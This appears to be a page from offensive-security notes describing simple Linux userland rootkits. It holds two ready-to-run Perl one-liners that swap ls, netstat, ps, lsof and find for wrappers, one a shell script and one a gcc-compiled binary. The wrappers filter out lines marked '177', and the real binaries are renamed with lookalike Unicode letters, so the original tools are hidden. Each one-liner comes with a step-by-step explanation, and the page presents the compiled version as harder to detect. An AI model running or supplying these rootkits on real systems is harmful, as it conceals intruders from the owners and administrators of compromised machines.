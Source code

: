 # Simple Rootkits

## Shell Rootkit

{% hint style="danger" %}
This rootkit is pretty easy to detect and analyze because it can easily be seen with the file command that programs like ps or ls have changed the type from an ELF binary to a shell script. After discovering the rootkit, it is also pretty easy to analyze the functionality of it and then selectively find the backdoors hidden by the rootkit.
{% endhint %}

The shell script version is still useful if the system doesn't contain a c compiler:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"&gt;$o";print F"#!/bin/sh\n$_ \$*|grep -vE \"[$s-$n]|grep|177\"";chmod 493,$o'
```

The which command lists the absolute path of the programs to maniuplate in the rootkit. These absolute paths are passed to a perl one-liner. The perl program starts with defining the variables $s and $n, which are initialized with the Unicode characters u+455 and u+578. These characters look like the ascii characters "s" and "n". Then it copies the filename of the original filename to $o and changes the filename in $\_ by replacing the "s" in ls, netstat, ps and lsof with u+455 and the "n" in find with u+578. The result of these replacements is a new filename which looks exactly like the original filename. The original program is then renamed to the new name and then replaced with a shell script, which calls the renamed original program ($\_) and pipes the output to grep. The grep command filters lines containing one of the following:

* Unicode characters used by the rootkit (\[$s-$n]) => Makes the rootkit self-hiding
* The string "grep" => Don't show that grep is running in the output of ps
* The string "177" => This is used for the stuff which should be hidden by the rootkit.

## The C Version

In order to make finding and analyzing the rootkit more difficult, it is also possible to compile small binaries instead of the shell script:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"|gcc -xc - -o$o";print F qq{int main(int a,char**b){char*c[999999]={"sh","-c","$_ \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};memcpy(c+3,b,8*a);execv("/bin/sh",c);}}'
```

The beginning is pretty much like the first variant of the rootkit. However, insted of directly writing the wrapper program, the perl script opens a pipe to gcc and writes a small C program to this pipe. The following shows a more readable version of the C program:

```
int main(int a,char**b){
  char*c[999999]={"sh","-c","original_program \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
```

The first line initializes the argument array for execv with "sh -c" and the same shell command as the first variant of the rootkit while the second line copies all remaining arguments from the argv array passed to the wrapper binary to the end of the argument array for execv.







